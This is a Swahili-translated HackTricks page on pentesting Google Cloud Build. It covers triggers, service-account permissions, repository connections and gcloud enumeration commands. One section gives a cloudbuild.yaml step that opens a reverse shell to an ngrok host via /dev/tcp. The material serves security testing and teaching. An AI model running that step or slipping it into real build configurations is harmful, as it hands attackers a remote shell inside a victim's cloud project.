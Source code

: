 # GCP - Uchambuzi wa Cloud Build

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

Google Cloud Build ni jukwaa lililosimamiwa la CI/CD ambalo **linahakikisha ujenzi wa programu** na mchakato wa kutolewa, likiunganisha na **hifadhi ya msimbo wa chanzo** na kusaidia anuwai ya lugha za programu. **Inaruhusu watengenezaji kujenga, kujaribu, na kutolea msimbo kiotomatiki** huku ikitoa mabadiliko ya kubinafsisha hatua za ujenzi na mifumo ya kazi.

Kila Kichocheo cha Cloud Build **kinahusiana na Hifadhi ya Cloud au moja kwa moja inahusishwa na hifadhi ya nje** (Github, Bitbucket na Gitlab).

{% hint style="success" %}
Sikuweza kuona njia yoyote ya kuiba token ya Github/Bitbucket kutoka hapa au kutoka kwa Hifadhi za Cloud kwa sababu wakati hifadhi inapopakuliwa inafikiwa kupitia URL ya [https://source.cloud.google.com/](https://source.cloud.google.com/) na Github haifikiwi na mteja.
{% endhint %}

### Matukio

Cloud Build inaweza kuzinduliwa ikiwa:

* **Kupakia kwenye tawi**: Eleza tawi
* **Kupakia lebo mpya**: Eleza lebo
* **Ombi la Kuvuta**: Eleza tawi linalopokea PR
* **Mwaliko wa Mwongozo**
* **Ujumbe wa Pub/Sub:** Eleza mada
* **Tukio la Webhook**: Itafunua URL ya HTTPS na ombi lazima liwe limehakikiwa na siri

### Utekelezaji

Kuna chaguzi 3:

* Yaml/json **inayoeleza amri** za kutekeleza. Kawaida: `/cloudbuild.yaml`
* Moja tu inayoweza kuelezwa "moja kwa moja" kwenye konsoli ya wavuti na kwenye cli
* Chaguo la kawaida zaidi
* Muhimu kwa ufikiaji usiothibitishwa
* **Dockerfile** ya kujenga
* **Buildpack** ya kujenga

### Ruhusa za SA

**Akaunti ya Huduma ina wigo wa `cloud-platform`**, hivyo inaweza **kutumia haki zote.** Ikiwa **hakuna SA inayoelezwa** (kama wakati wa kuwasilisha) **SA ya chaguo-msingi** `<nambari-ya-proj>@cloudbuild.gserviceaccount.com` itatumika.

Kwa chaguo-msingi hakuna ruhusa zinazotolewa lakini ni rahisi kumpa baadhi:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Idhini

Inawezekana kusanidi Cloud Build kuwa **inahitaji idhini kwa utekelezaji wa ujenzi** (imelemazwa kwa chaguo-msingi).

### Uunganisho & Hifadhi

Unganisho linaweza kuundwa kupitia:

* **GitHub:** Itaonyesha dirisha la OAuth likiomba ruhusa ya **kupata token ya Github** ambayo itahifadhiwa ndani ya **Meneja wa Siri.**
* **GitHub Enterprise:** Itaomba kusakinisha **GithubApp**. **Tokeni ya uthibitishaji** kutoka kwa mwenyeji wako wa GitHub Enterprise itaundwa na kuhifadhiwa katika mradi huu kama siri ya **Meneja wa Siri.**
* **GitLab / Enterprise:** Lazima utoe **tokeni ya ufikiaji wa API na tokeni ya ufikiaji wa API ya Kusoma** ambayo itahifadhiwa katika **Meneja wa Siri.**

Marapo unapoundwa, unaweza kutumia kuiunganisha na **hifadhi ambazo akaunti ya Github ina ufikiaji**.

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Tafadhali kumbuka kuwa hifadhi zilizounganishwa kwa njia hii zinapatikana **tu katika Kichocheo kinachotumia 2nd generation.**
{% endhint %}

### Unganisha Hifadhi

Hii sio sawa na **`unganisho`**. Hii inaruhusu njia **tofauti** za kupata **ufikiaji wa hifadhi ya Github au Bitbucket** lakini **haisababishi kitu cha kuunganisha, lakini inazalisha kitu cha hifadhi (ya kizazi cha 1).**

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Uhifadhi

Wakati mwingine Cloud Build ita **zalisha uhifadhi mpya kuhifadhi faili za kichocheo**. Hii hutokea kwa mfano katika mfano ambao GCP inatoa na:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Chombo cha kuhifadhi kinachoitwa [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) kimeundwa kuhifadhi `.tgz` na faili zitakazotumiwa.

### Pata ganda
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Uchambuzi

Unaweza kupata **maarifa nyeti katika mipangilio ya ujenzi na kwenye magogo**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Kupandisha Mamlaka

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Upatikanaji usiothibitishwa

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Baada ya Uvamizi

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
